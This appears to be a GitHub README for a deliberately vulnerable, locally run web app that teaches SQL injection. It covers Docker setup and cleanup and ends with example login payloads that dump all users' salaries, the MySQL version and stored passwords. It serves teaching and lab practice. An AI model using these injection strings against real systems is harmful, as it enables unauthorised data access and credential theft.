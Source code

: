 # SQL-injection-demo
Demonstration of how a SQL injection works

# Project Summary

This is a simple web application that is vulnerable to SQL injection attacks.

All credits for this demonstration go to [startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll) repository created by [Thomas Laurenson](https://github.com/thomaslaurenson). Check out the project summary there for some more infromation on this project.

# Project instructions

Install the project requirements on your choice of operating system, including:

* Docker
* Docker Compose plugin

Run using either of the following:

* `make run`

* `docker compose up --build`

Open web browser and visit

* `localhost:8080`

Clean the docker Environment (after making changes):

* `make clean`
* or through Docker commands `rm` for created containers and `rmi` for created images. ***Images are associated to containers. You must first remove the container before removing the image***: 
    * Write `docker ps -a`: this gives you all containers that have been build - their ID is needed to clean them
    * Write `docker images -a` to see all docker images you have created - again their ID is important
    * To delete the containers use `docker rm` followed by the ID each container:
        
        e.g.: 
        
        All together:
        
        `docker rm 48c064730b81 c6d80ff5be44 62b9c56cd422`

        or one by one: 
        
        `docker rm 48c064730b81` 
        
        `docker rm c6d80ff5be44`
        
        `docker rm 62b9c56cd422`
        
    * Same procedure applies for the images, but with `docker rmi` command:

        e.g.:

        All together:

        `docker rmi 99e09be04fc1 cb3b004c0880 34245ab68ca0`

        or one by one:

        `docker rmi 99e09be04fc1`
        
        `docker rmi cb3b004c0880`
        
        `docker rmi 34245ab68ca0`



# Example Payloads

1. Normal login to get users salary
    
    * `username`: `james_kirk`
    * `password`: `kobayashi_maru`

2. Dump username and salary of all users:

    * `username`: `' OR 1=1#`
    * `password`: `anythingyouwant`
    
3. Dump MySQL version:

    * `username`: `' UNION SELECT null,@@version#`
    * `password`: `anythingyouwant`
    
4. Dump all users passwords:

    * `username`: `' UNION SELECT username,password FROM users#`
    * `password`: `anythingyouwant`